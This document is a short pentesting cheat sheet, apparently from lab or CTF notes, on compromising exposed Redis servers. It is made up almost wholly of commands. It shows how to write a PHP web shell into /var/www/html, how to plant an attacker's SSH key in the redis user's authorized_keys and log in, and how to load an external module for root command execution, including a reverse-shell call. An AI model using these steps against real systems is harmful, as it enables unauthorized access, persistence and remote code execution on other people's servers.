 # Redis
------------
port 6379 TCP
```bash
sudo apt install redis-cli
```

```bash
redis-cli -h 10.10.10.10
```

```bash
> ping
> PONG
```


## PHP Web Shell
When we know the root folder of the php web server running:
```bash
> config set dir /var/www/html
> config set dbfilename redis.php
> set test "<?php phpinfo(); ?>"
> save
```


## Dropping SSH keys for Access
redis-cli:
```bash
config get dir
1) "dir"
2) "/var/lib/redis"

config set dir ./.ssh
OK

config get dir
1) "dir"
2) "/var/lib/redis/.ssh"
```

Once this is done we should be able to write ssh keys into .ssh folder.
Generate keys using ssh-keygen. 

Add some extra newlines before & after the public key:
```bash
(echo -e "\n\n"; cat ~/id_rsa.pub; echo -e "\n\n") > key.txt
``` 

Push this key into redis instance using redis cli from stdin:
```bash
cat key.txt | redis-cli -h 10.10.10.160 -x set cbbn
```

Telling redis that the dbname is authorized_keys and save:
redis-cli:
```bash
config set dbfilename "authorized_keys"
OK
save
```

Now ssh into the machine using the id_rsa:
```bash
ssh -i id_rsa redis@10.10.10.160
````



## Redis module RCE
https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
Clone the repo, make and the shared object module will be saved in the src folder as module.so 
Find a way to upload the module.so into the victim pc; once uploaded load the module:
```bash
MODULE LOAD /path/to/mymodule.so
# check loaded module:
MODULE LIST
# unload module
MODULE UNLOAD mymodule
```

now execute commands:
```bash
127.0.0.1:6379> system.exec "id"
"uid=0(root) gid=0(root) groups=0(root)\n"
127.0.0.1:6379> system.exec "whoami"
"root\n"
127.0.0.1:6379> system.rev 127.0.0.1 9999
```


-----------







